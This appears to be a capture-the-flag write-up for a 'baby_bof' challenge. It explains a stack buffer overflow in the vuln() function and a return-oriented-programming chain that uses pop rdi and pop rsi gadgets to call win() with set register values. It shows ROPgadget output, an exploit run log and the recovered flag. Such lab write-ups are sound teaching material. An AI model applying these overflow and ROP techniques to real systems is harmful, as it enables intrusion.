 # Day 17

> Santa made available a service that accepts only the best of jokes. Try it out, binary is available and service is listening at elfs.owasp.si:40003.

[baby_bof](baby_bof)

Binary exploitation challenge. Let's analyze the file in Ghidra:

![disassembly in Ghidra](ghidra.png)

In order to get a flag, we need to jump to `win()` by using usual buffer overflow, while setting `EDI` and `ESI` registers to `0xdeadbeef` and `0x1337c0de`, respectively.

For the first step, we are going to use usual buffer overflow in `fgets` of `vuln()` function (60 bytes).

For the second step, we need to find some instructions in the binary itself which set `EDI` and `ESI` registers to a needed value. These instructions set which ends with `ret` instructions are named "gadgets" and are crucial part of [Return-oriented programming (ROP)](https://en.wikipedia.org/wiki/Return-oriented_programming).

I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) tool to find needed ROP gadgets:

```
$ ROPgadget.py --binary baby_bof | grep -E 'pop (.di|.si)'
0x0000000000400783 : pop rdi ; ret
0x0000000000400781 : pop rsi ; pop r15 ; ret
```

We needed EDI/ESI registers, but RDI/RSI would also work fine, we just need to add more bytes on the stack.

The exploit works this way: normal buffer overflow, setting EDI with a 0x400783 gadget, setting ESI with a 0x400781 gadget, adding address of `win()` to return there.

See the [full exploit](solution/solution.py) and the usage:

```
$ ./solution.py
[*] '../baby_bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to elfs.owasp.si on port 40003: Done
b'will need more than a simple joke this time...\n'
b'will this work?\n'
b'you made it to win land, no free handouts this time, try harder\n'
b'one down, one to go!\n'
b'2/2 bro good job\n'
[*] Switching to interactive mode
$ cat flag.txt
xmas{-BAby-Pl1s-CXme-H0me}
```
